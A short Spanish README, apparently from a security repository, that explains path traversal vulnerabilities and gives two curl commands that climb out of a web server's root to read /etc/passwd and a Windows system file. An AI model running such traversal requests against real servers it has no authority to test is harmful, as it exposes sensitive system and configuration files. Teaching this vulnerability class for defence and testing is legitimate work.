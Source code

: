 ## directoriotrasversal
##
Path Traversal (o Directory Traversal) es una vulnerabilidad web que permite a un atacante acceder a archivos y directorios fuera del directorio raíz del servidor web.

se manipula parámetros de la URL o inputs que contienen rutas de archivos (como ../../) para moverse por las carpertas del servidor.

Si el servidor no valida correctamente las entradas, puede exponer archivos sensibles como:

Configuraciones (/etc/passwd en Linux).
#
## Exploits para explotar la vulnerabilidade de directorio trasversal o path traversal.
#

curl --path-as-is -k -v http://ip:80/../../../../../etc/passwd

curl --path-as-is -k -v http://ip:80/../../../../../../windows/system32/cmd.exe

## http://www.hackingyseguridad.com

Codigos de respuesta HTTP https://www.w3.org/Protocols/rfc2616/rfc2616-sec10.html

